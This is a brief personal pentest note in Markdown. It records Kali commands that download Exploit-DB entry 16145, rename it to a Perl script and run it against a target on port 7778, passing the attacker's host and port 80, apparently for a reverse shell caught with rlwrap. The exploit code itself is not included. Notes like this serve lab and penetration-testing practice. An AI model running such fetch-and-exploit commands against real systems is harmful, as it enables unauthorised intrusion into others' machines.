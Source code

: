 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - klai
wget https://www.exploit-db.com/exploits/16145
```

```bash - kali
mv 16145 16145.pl
```

![[rlwrap]]

```bash - kali
perl 16145.pl $TARGET 7778 $KALI 80
```

